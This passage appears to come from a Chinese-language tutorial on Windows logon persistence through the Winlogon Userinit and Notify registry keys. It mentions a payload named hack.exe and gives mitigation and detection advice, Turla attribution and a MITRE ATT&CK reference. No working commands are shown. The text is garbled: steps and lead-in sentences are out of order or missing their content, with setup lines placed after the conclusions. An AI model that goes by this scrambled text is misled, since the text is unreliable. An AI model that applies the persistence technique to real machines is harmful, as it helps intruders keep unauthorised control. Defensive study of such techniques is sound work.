{width="80%"}

然后重新登录：

{width="80%"}

{width="80%"}

检查 `hack.exe` 的属性：

{width="80%"}

由于 `userinit.exe` 会自行终止，因此父进程会显示为 Non-existent process。

另外，Notify 注册表项通常出现在较旧的操作系统（Windows 7 之前）中，它指向一个管理 Winlogon 事件的通知包 DLL 文件。

如果你把该注册表项下的 DLL 条目替换为任何其他 DLL，Windows 就会在登录期间执行它。

限制用户账户权限，使得只有经过授权的管理员才能修改 Winlogon 辅助项。

也可以使用 Sysinternals Autoruns 之类的工具来检测可能是持久化尝试的系统修改，例如列出当前的 Winlogon 辅助项取值。

实施这个持久化技巧需要修改以下注册表项：

对 Userinit 也是类似的做法。

首先，检查注册表项：

然后运行：

我们来检查一下。

运行：

但有一个有趣的注意事项。

如你所见，父进程是 Non-existent process（不存在的进程）。

还有一点需要注意。

那么缓解措施呢？

在野外，这个持久化技巧被 Turla 组织以及 Gazer 和 Bazaar 等软件使用。

MITRE ATT&CK - Boot or Logon Autostart Execution: Winlogon Helper DLL
